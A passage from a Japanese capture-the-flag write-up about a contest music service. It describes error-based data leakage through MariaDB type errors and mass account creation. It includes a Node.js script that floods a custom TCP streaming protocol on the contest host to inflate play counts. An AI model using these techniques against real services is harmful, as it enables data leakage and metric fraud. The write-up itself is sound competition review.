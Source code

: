 のようなファイルを投げると、MariaDBが型エラーを吐き、そのエラーメッセージで内容がわかります。

いろいろ見ていたんですが、特に怪しいテーブルも存在せず、さらにDBにアクセスしているユーザが`file`テーブル以外へのアクセス権を持っていないように見えました。
（挑戦していたのが終了間近で焦っていたので、違ったかもしれない……）

で、結局ここから先がわかりませんでした……
ここからuserテーブルのis_adminフラグを立てるとか、adminのパスワードを抜くとかでしょうか？
わかりません。

### Defence

再生数ランキング上位の曲名にディフェンスキーワードを入れられると、DefencePointがもらえます。

1アカウント辺り、1再生しかカウントされないので、ランキングを上げるにはアカウントを量産することが必要です。
適当にPOSTを投げるとアカウントが作れるので、さほど難しくないです。

再生数のカウントは、ストリーミングサーバから実際に曲ファイルを取得した際に行われていて、
ストリーミングサーバへのリクエストはTCP上の独自プロトコル？っぽいもので通信しています。
アプリが実際に使っているソースコードは、Electronパッケージから簡単に抜けるので、これを使うと簡単。

#### 再生数を増やすNode.js向けスクリプト

```js
var PromiseSocket = require('promise-socket');

async function getWAV(streaming_host, streaming_port, song, api_key) {
    return new Promise(async (resolve, reject) => {
        const socket = new PromiseSocket();
        await socket.connect({
            host: streaming_host,
            port: streaming_port
        });
        for(let i = 0; i < 100; i++){
            // '\x80': select song
            await socket.write("\x80");
            await socket.write(song['unique_id']);
            await socket.write(api_key);
            // '\x82': get WAV File Headers
            await socket.write("\x82");
            await socket.write("\x84\xff\xff\xff\xff\xff\xff\xff\x7f");
            await socket.write("\x81");
        }
        // '\x90': close connection
        await socket.write("\x90");
        // let result = (await socket.readAll());
        let result = (await socket.end());
        resolve(result);
    });
}


(async _ => {
    console.log(await getWAV("fuchu.koth.seccon", 8000, {unique_id: process.argv[2]}, process.argv[3]));
})();
```
